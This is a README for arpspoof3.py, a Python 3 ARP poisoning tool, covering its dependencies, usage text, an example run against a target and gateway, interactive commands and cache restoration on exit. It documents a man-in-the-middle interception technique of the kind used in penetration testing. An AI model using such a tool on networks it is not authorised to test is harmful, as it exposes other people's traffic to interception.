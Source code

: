 # arpspoof3
arpspoof3.py - An ARP poisoning tool for Python 3 (based from [ickerwx python 2 arpspoof](https://github.com/ickerwx/arpspoof))

## Dependencies
You will need scapy and Python 3. (Tested on python 3.11)

## Usage

```
$ python3 arpspoof.py -h
usage: arpspoof.py [-h] [-i INTERFACE] -t TARGETS -g GATEWAY

Do ARP poisoning between a gatway and several targets

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        interface to send from
  -t TARGETS, --targets TARGETS
                        comma-separated list of IP addresses
  -g GATEWAY, --gateway GATEWAY
                        IP address of the gateway
```

As you can see from the output above, the typical usage scenario is that you want to intercept data between one gateway and one or more targets. The -t and -g parameters are required, the -i parameter might be useful if you have multiple connected interfaces.

```
$ sudo python3 arpspoof.py -t 192.168.1.234 -g 192.168.1.1
Using interface wifi0 (60:67:20:42:fb:de)
arpspoof#
```

After starting, you will find yourself at a command prompt. At this time, the ARP poisoning is already going on in the background.

```
arpspoof# help
add <IP>: add IP address to target list
del <IP>: remove IP address from target list
list: print all current targets
exit: stop poisoning and exit
arpsoof#
```

Typing help will bring up a list of commands.

- add/del will modify the list of targets. At the moment, I haven't found the need to change the gateway, so this is not possible right now
- list will list all current targets and the gateway
- exit will exit, who would have thought...

```
arpspoof# list
Current targets:
Gateway: 192.168.1.1 (00:00:00:00:00:01)
192.168.1.234 (00:00:00:00:00:02)
arpspoof# exit
Stopping the attack, restoring ARP cache
ARP 192.168.1.1 is at 00:00:00:00:00:01
ARP 192.168.1.234 is at 00:00:00:00:00:02
ARP 192.168.1.1 is at 00:00:00:00:00:01
ARP 192.168.1.234 is at 00:00:00:00:00:02
ARP 192.168.1.1 is at 00:00:00:00:00:01
ARP 192.168.1.234 is at 00:00:00:00:00:02
Restored ARP caches
$
```

After receiving the exit command, arpspoof.py will restore the ARP caches of the gateway and the targets by sending three correct ARP responses.
